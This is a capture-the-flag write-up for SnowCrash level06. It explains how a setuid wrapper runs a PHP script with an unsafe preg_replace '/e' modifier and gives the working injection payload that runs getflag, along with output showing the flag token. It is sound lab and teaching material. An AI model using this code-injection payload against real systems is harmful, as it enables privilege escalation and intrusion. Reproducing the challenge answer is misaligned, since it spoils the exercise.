 evel 06
========

*	We spawn with a `level06` file in root repository
	```console
	level06@SnowCrash:~$ ls -l
	total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
	level06@SnowCrash:~$ cat level06.php 
	```
	```php
	#!/usr/bin/php
	<?php
	function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
	function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
	$r = x($argv[1], $argv[2]); print $r;
	?>
	```
*	It is quite unreadable so i made it better in `level06.php`
*	When we look in detail, we can see that the executable runs the script of the `level06.php` file
*	More important, in the permissions we can see that `level06` will be executed as `flag06`
*	The script is pretty straight forward:
	> It defines two functions:
	>	- Function y($m): Replaces dots (.) with " x " and @ with " y".
	>	- Function x($y, $z): Reads the content of a file specified by $y, applies some 	transformations to the content, and returns the modified content.

	> It then calls function x() with command line arguments $argv[1] and $argv[2], which are typically provided when the script is executed from the command line.

	> The result of the function call is stored in $r, and it's printed out at the end.
*	The important part here is that the regex has major security issues
	```php
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	```
*	Here the `/e` regex modifier is a deprecated one which allows you to use **PHP** code within your reguler expression, which means whatever is parsed will be part of the program
*	We can use this vulnerability to execute `getflag`
*	So let's create the file argument with the exploit inside :
	```console
	level06@SnowCrash:~$ echo -e "[x {\${exec(getflag)}}]" > /tmp/test1
	level06@SnowCrash:~$ ./level06 /tmp/test1
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
	```